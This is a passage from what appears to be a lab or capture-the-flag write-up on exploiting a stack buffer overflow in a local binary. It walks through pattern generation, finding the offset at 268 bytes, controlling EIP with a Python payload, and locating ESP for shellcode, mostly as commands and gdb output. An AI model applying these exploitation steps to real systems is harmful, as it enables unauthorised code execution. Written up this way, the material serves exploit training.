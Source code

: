 ```bash
0x08048530  __do_global_ctors_aux
0x0804855c  _fini
(gdb) 
```

On the attacking machine we generate a string of 300 characters with **pattern_create** utility.

```bash
root@kali:~$ msf-pattern_create -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

We run the binary with the generated string, and we see that it caused a crash.

```bash
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Starting program: /home/noob/r00t Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
0x6a413969 in ?? ()
(gdb)
```

We identify the offset with the **pattern_offset** utility at 268 characters, as shown below.

```bash
root@kali:~$ msf-pattern_offset -l 300 -q 0x6a413969
[*] Exact match at offset 268
root@kali:~$
```

We check if we control the **eip** register as follows.

```bash
(gdb) run $(python -c "print('A'*268 + 'B'*4 + 'C'*100)")
Starting program: /home/noob/r00t $(python -c "print('A'*268 + 'B'*4 + 'C'*100)")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

As we can see above the return address was controlled.

We verify the address to the **esp** register to locate our shellcode there, **0xbffffb80**.

```bash
(gdb) x/40wx $esp
0xbffffb80:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb90:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffba0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffbb0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffbc0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffbd0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffbe0:     0x43434343      0x08048300      0x00000000      0x080483b1
0xbffffbf0:     0x08048444      0x00000002      0xbffffc14      0x080484b0
0xbffffc00:     0x08048520      0xb7fed280      0xbffffc0c      0xb7fff918
0xbffffc10:     0x00000002      0xbffffd2c      0xbffffd3c      0x00000000
```
